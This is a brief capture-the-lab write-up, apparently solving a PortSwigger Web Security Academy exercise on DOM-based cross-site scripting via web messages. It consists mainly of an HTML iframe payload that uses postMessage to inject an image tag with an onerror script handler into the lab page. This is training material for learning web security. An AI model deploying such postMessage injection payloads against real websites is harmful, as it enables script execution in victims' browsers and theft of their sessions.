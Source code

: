 # DOM XSS using web messages

![image](https://user-images.githubusercontent.com/60841283/153745543-5af9d7cb-9b39-479e-ba55-e04057a96b46.png)

Payload in exploit server (in Body section) :-
```html
<iframe src="https://ac301f9b1e366bb9c074daf400b800c0.web-security-academy.net/#" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153745467-9cb2d3d7-44e0-4538-b303-1c0ae491d21d.png)
